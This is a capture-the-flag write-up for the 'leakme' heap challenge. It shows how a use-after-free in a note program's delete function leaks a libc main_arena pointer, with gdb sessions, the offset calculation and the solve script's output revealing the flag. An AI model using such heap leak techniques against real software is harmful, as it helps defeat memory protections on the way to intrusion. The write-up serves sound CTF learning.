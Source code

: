 # leakme writeup

```
$ ./leakme
Heaps of fun 0.1
1. Add note
2. Delete note
3. Print note
4. Get flag
5. Exit
$
```

The program is called `Heaps of fun`, so we should look for interesting heap overflows etc. One menu option that really stands out is the `Get flag` option.

```
$ 4
Give me the libc base address: 0xdeadbeef
You entered: 0xdeadbeef
Nope :( Try again!
```

Okay, so our goal is to find the libc base address! Let's go bug hunting. The function `del_note()` doesn't set the freed notes to `NULL`, which let's us print a note after it has been deleted. This results in a nice UAF bug!

We can use this use-after-free bug to trick the program into leaking a libc address if we first allocate two objects on the heap, and then free the first one. We have to create chunks large enough so that they don't end up in the fast bins, which don't use `fd` and `bk` pointers. 128 bytes is good enough.

Add two notes, both with size 128, delete the first one and then print the first one. We'll use gdb to see what pointer we are leaking from libc. First, set a breakpoint at the call to `printf()` inside `print_note()`. Then check the contents of the `rsi` register.
```
Breakpoint 1, 0x0000000000400d88 in print_note ()
gdb-peda$ x/a $rsi
0x603420:	0x7ffff7dd1b78 <main_arena+88>
```

Great! Subtract the base address of libc from this, and we have the offset we need to find the libc base.

```
gdb-peda$ info proc
process 4753
cmdline = '/home/pewz/tg/leakme'
cwd = '/home/pewz/tg'
exe = '/home/pewz/tg/leakme'
gdb-peda$ cat /proc/4753/maps | grep libc
7ffff7a0e000-7ffff7bcd000 r-xp 00000000 08:01 531009                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001bf000 08:01 531009                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r--p 001bf000 08:01 531009                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rw-p 001c3000 08:01 531009                     /lib/x86_64-linux-gnu/libc-2.23.so
gdb-peda$ p *(unsigned long *)$rsi - 0x7ffff7a0e000
$8 = 0x3c3b78
```

So, to recap:
1. Add note with size 128
2. Add another note with size 128
3. Delete note 0
4. Print note 0, leaking `main_arena+88`
5. Subtract `0x3c3b78`, and we got the libc base address
6. Call `get_flag()` and send base

Use [this script](src/leak.py) to test the solution.

```
python2 src/leak.py
[+] Opening connection to localhost on port 3190: Done
[*] leaked addr: 0x7fed60355b78
[*] libc base: 0x7fed5ff92000
[*] Sending addr 0x7fed5ff92000
Give me the libc base address: You entered: 0x7fed5ff92000
Yay! Here's the flag: TG17{please_fix_my_leaky_bucket}
[*] Closed connection to localhost port 3190
```
